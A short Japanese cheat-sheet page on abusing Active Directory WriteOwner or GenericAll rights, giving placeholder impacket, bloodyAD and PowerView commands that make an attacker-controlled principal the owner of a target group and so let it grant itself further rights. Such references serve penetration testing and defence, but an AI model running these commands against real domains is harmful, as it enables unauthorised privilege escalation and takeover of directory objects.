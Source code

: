 # WriteOwnerの悪用

この悪用は、あらゆるオブジェクトに対して`WriteOwner`または`GenericAll`を持つオブジェクトをコントロールする際に実行できる。

攻撃者は、ターゲット・オブジェクトの所有者を自分自身に更新することができる。いったんオブジェクトの所有者が攻撃者のコントロールするプリンシパルに変更されると、攻撃者はそのオブジェクトを好きなように操作することができる。例えば、攻撃者はターゲット・オブジェクトのパーミッションを変更し、グループのユーザーを追加する権限などを与えることができる。

## WriteOwner on Group

## Linux

### impacket

```
impacket-owneredit -action write -new-owner <USERNAME> -target <TargetObject> <DOMAIN>/<USERNAME>:<PASSWORD>
```

### bloodyAD

```
bloodyAD --host <DC_IP> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set owner <TargetObject> <ControlledPrincipal>
```

## Windows

### PowerView

```
Set-DomainObjectOwner -Identity <Target_Object> -OwnerIdentity <ControlledPrincipal>
```

## アクセス権限の追加

グループの所有者になると任意の権限を自分自身に付与することができる。

[権限の乱用]()

